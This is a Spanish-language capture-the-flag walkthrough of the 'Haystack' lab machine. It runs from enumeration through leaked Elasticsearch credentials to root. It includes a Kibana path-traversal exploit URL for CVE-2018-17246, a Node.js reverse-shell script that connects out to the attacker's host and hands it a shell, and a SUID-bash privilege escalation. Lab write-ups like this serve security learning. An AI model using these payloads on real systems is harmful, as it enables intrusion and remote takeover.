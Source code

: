 # Máquina Haystack

### Intrusión

Comenzamos con nuestros comandos de nmap

```
sudo nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.115 -oG allPorts
```
```
sudo nmap -p22,80,9200 -sCV 10.10.10.115 -oN Targeted
```
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 23:39 CEST
Nmap scan report for 10.10.10.115
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a8de2928b14b63fe42f3a4743238b2b (RSA)
|   256 e75a3a978e8e728769a30dd100bc1f09 (ECDSA)
|_  256 01d259b2660a9749205f1c84eb81ed95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
Encontramos una imagen al entrar en el puerto 80

Nos la descargamos y la movemos a nuestro directorio de trabajo
```
mv ~/Downloads/Descargas/needle.jpg .
```

Si usamos exiftool no encontramos gran cosa:


*ExifTool Version Number         : 12.16*
*File Name                       : needle.jpg*
*Directory                       : .*
*File Size                       : 179 KiB*
*File Modification Date/Time     : 2023:04:21 23:42:24+02:00*
*File Access Date/Time           : 2023:04:21 23:42:24+02:00*
*File Inode Change Date/Time     : 2023:04:21 23:42:38+02:00*
*File Permissions                : rw-r--r--*
*File Type                       : JPEG*
*File Type Extension             : jpg*
*MIME Type                       : image/jpeg*
*JFIF Version                    : 1.01*
*Exif Byte Order                 : Big-endian (Motorola, MM)*
*X Resolution                    : 96*
*Y Resolution                    : 96*
*Resolution Unit                 : inches*
*Software                        : paint.net 4.1.1*
*User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.*
*Image Width                     : 1200*
*Image Height                    : 803*
*Encoding Process                : Baseline DCT, Huffman coding*
*Bits Per Sample                 : 8*
*Color Components                : 3*
*Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)*
*Image Size                      : 1200x803*
*Megapixels                      : 0.964*


Si aplicamos el comando string sin embargo:

```
strings -n 10 needle.jpg
```
Encontramos una cadena en base 64:

*bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==*

La decodeamos:

```
echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
```

Y encontramos que: `"la aguja en el pajar es "clave"%"`

Aplicando fuzzing en el puerto 80 no encontramos nada

Sin embargo en el puerto 9200:

```
wfuzz -c -t 200 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.115:9200/FUZZ
```

*000000687:   200        0 L      1 W        338 Ch      "quotes"
000003642:   200        0 L      1 W        1010 Ch     "bank"
000007004:   200        0 L      1 W        2 Ch        "*checkout*"                                                                                      
000016413:   200        0 L      1 W        4136 Ch     "*"                                                                                               
000015463:   200        0 L      1 W        2 Ch        "*docroot*"*

http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000

curl 'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' > haystack.txt

cat haystack.txt| grep "clave"

"quote" : "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
"quote" : "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
❯ echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
pass: spanish.is.key%                                                                                                                                        ❯ echo 'dXNlcjogc2VjdXJpdHkg' |base64 -d
user: security %

ssh connect

sudo -l nothing

[security@haystack home]$ cat /proc/net/tcp | grep '00000000:0000 0A'
   0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38071 1 ffff93b16e2407c0 100 0 0 10 0                     
   1: 00000000:23F0 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38070 1 ffff93b16e240f80 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 37910 1 ffff93b16e240000 100 0 0 10 0                     
   3: 0100007F:15E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000   994        0 260693 1 ffff93b16e2464c0 100 0 0 10 0  
0.0.0.0:80
0.0.0.0:9200
0.0.0.0:22
127.0.0.1:5601

ssh> -L 5601:localhost:5601


https://github.com/mpgn/CVE-2018-17246

http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/kraken.js

[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-0e42240d40d449479f1827df5cdc85f1-chronyd.service-uWVFDs	vmware-root
jruby-6234	systemd-private-0e42240d40d449479f1827df5cdc85f1-elasticsearch.service-ux1hQZ	vmware-root_6238-700485133
kraken.js	systemd-private-0e42240d40d449479f1827df5cdc85f1-nginx.service-McmzxV
[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();



bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash

bash -p
whoami
root
